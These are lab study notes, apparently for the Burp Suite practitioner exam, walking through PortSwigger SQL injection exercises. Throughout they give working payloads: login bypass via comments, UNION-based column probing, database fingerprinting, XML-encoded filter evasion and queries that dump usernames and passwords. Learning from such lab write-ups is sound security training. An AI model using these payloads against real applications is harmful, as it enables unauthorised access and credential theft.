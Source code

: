 [PortSwigger SQL Injection](https://portswigger.net/web-security/sql-injection),
[SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data 
- When user selects a category: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1` /filter?category=Clothing%2c+shoes+and+accessories
- Solve the lab to display one or more unreleased products: `SELECT * FROM products WHERE category = '' OR 1=1 --'`/filter?category='+OR+1=1--
  - `--` is a comment indicator in SQL. Rest of the query is interpreted as a comment following this (effectively removing it). In this case, `AND released = 1` is removed. This could've been done just using the '--' to see unreleased items, but if you wanted to see unreleased items from all categories, the OR 1=1 --' works, as it is either Gifts or 1=1 is true, and since 1=1 is always true, the query returns all items.
 
## SQL injection vulnerability allowing login bypass
- When user logs in, there is a reported SQL vulnerability. Potential attempts to try include:
  - `SELECT firstname FROM users where username='administrator' and password='admin'`
  - `SELECT firstname FROM users where username=''' and password='admin'`
  - `SELECT firstname FROM users where username='administrator' --' and password='admin'` - WINNER

## SQL injection UNION attack, determining the number of columns returned by the query
- UNION attacks - retrieve data from other tables within the database. UNION allows for execution of additional SELECT queries: `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`
- Two requirements for UNION attacks:
  1. Individual queries must return the same number of columns (find out how many columns are being returned from the original query)
      - Inject a series of ORDER BY clauses and incrementing the specified column index until an error occurs. `' ORDER BY 1--`, `'ORDER BY 2--`, etc.
      - Inject a series of UNION SELECT payloads with different number of null values `' UNION SELECT NULL--`, `'UNION SELECT NULL,NULL--`, etc.
        - A NullPointerException makes this method ineffective. 
  2. The data types in each column must be compatible with the individual queries (find out which columns returned from the original query are of a suitable data type to hold the results from the injected query).
- In this lab, attempted `'+ORDER+BY+2--'` through 4 and noticed 4 returned an error. Determined there were three columns.
  - Verified 3 columns by also using `'+UNION+SELECT+NULL,NULL,NULL--'` (# of nulls has to match # of columns)
 
## SQL injection attack, querying the database type and version on Oracle
- You can identify the database type and version by injecting provider-specific queries:
  - Microsoft/MySQL: `SELECT @@version`
  - Oracle: `SELECT * FROM v$version`
  - PostgreSQL: `SELECT version()`
- For example, UNION attack with following input: `' UNION SELECT @@version--`
- **REMEMBER** - you need to determine the number of columns first before performing a UNION attack.
  - Performed `' ORDER BY 2--'` - determined 2 columns, as 3 returned an error (category='+ORDER+BY+2--')
- Once I determined 2 columns, I knew I needed to add an additional column to call for in my request: `' UNION SELECT banner,null FROM v&version--`
  - `' UNION SELECT banner,null FROM v$version--`
  - `' UNION SELECT version, null FROM v$instance--` did not work for this Oracle database. 

![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/cc5bd783-036f-4acc-9d71-c7452b4a7d63)

## SQL injection attack, querying the database type and version on MySQL and Microsoft
- Just like with Oracle, you need to figure out how many columns there are. Remember that comments are different - if you use `--` for MySQL, you must include a space after! `-- `
  - Determined number of columns by `' UNION SELECT NULL,NULL-- `, URL-encoded: `'+UNION+SELECT+NULL,NULL--+ ` (3 nulls returned an error)
      - Could also be done with `' ORDER BY 3 -- `
- The solution informs you to also determine the data returned by the column, which we will look at in the lab following this one.
- `'+UNION+SELECT+%40%40version,NULL--+` aka `' UNION SELECT @@version,null-- `

## SQL injection UNION attack, finding a column containing text
- Desired interesting data is often returned as a string, so you may need to find the one or more columns whose data type is compatible with strings. You can do this by probing columns:
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
- If the column type is not compatible with string data, a database error will likely be caused. If no error, and the response contains additional content like injected string value, relevant column is suitable for retrieving string data. 

![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/0cf51a15-ea3c-4b91-bab5-9136bd1540ec)

## SQL injection with filter bypass via XML encoding
- Different formats, such as JSON or XML, may provide you ways to obfuscate attacks that are otherwise blocked [Link](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding)
  - Can use the bApp extension Hackvertor to assist with encoding/decoding. 
- For example, the following XML-based SQL injection uses an XML escape sequence to encode the S character in SELECT [W3 UTF-8 Link](https://www.w3schools.com/charsets/ref_utf_basic_latin.asp):

```
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>

*The x indicates Hex for UTF-8 HTML, I believe*
```
- As for the lab, originally tried the following (UNION SELECT * FROM user--), which returned 0 units. Need to figure out how many columns maybe?:
```
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>8 &#x55;NION &#x53;ELECT &#42; &#x46;ROM users.tables&#x2D;&#x2D; </productId><storeId>2</storeId></stockCheck>
```
  - Changed it to UNION SELECT null - we see that it only likes to return one column at a time, so we have to concatenate. Both inputs were impacted here:
    
![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/57c4ece1-7ea1-45e4-9866-3cd178865088)
![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/9fa260e3-3ce6-47d4-bfbc-27d316a4bcdc)

## SQL injection attack, listing the database contents on non-Oracle databases
1. Determining how many columns by utilizing `' UNION SELECT NULL,NULL,NULL--` - returned an error, so reduced to 2 NULLs - WORKED! 2 columns.
   - Also can be achieved with `' ORDER BY 2--`
  2. We know it's a non-Oracle database, let's figure out what database it actually is. Remember to add a NULL because it is expecting 2 columns. 
   - Attempted: `'+UNION+SELECT+%40%40version,NULL--` for Microsoft/MySQL, received an error. `'+UNION+SELECT+version(),NULL--` for PostgreSQL returned:

![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/bacc2d5e-b305-4c3b-9975-39ab01389935)

3. Next, we need to find the table name. Note the table_name variable from the [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) for PostgreSQL. Don't forget the NULL for the 2nd column! If you read through the list of table names, a few stand out, including users_jnmpco:

![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/0bb6f5e5-659c-4ba6-813d-74b8cd542b4f)

4. Investigate the columns by using the following `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_jnmpco'--` Note the following columns are returned: username_jwuwyw, email, and password_yermnb. Now we can call those columns directly with `' UNION SELECT username_jwuwyw,password_yermnb FROM users_jnmpco--`.

![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/73f2d88d-7f6e-4f18-a876-91b6df17ae9c)

## SQL injection attack, listing the database contents on Oracle
- Remember, since it's an Oracle database, every SELECT statement must specify a table to select FROM. There is a built-in table on Oracle called `dual` which you can use for this, so let's use `' UNION SELECT 'abc',NULL FROM dual` - our first guess of two columns was right!
- Grab the tables with `' UNION SELECT table_name,NULL FROM all_tables--` with help from the [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet). Note table USERS_GVBORM.
- Grab the columsn from this table with `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_GVBORM'--`
![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/f416588a-d337-46bc-9bdd-a2641d8fb453)
- Use `' UNION SELECT USERNAME_PLXSAJ,PASSWORD_FSYMXF FROM USERS_GVBORM--` to grab the users and passwords. 

## SQL injection UNION attack, retrieving data from other tables
- Columns first, since it could also help me figure out database a bit (not Oracle if you don't need FROM). `' UNION SELECT NULL,NULL--` worked, 3 NULLs did not. 2 columns.
- Oh, this wasn't as complicated as expected. The prompt gives us the table and columns, so `' UNION SELECT username,password FROM users--` returned the administrator and the password. Lab solved! 
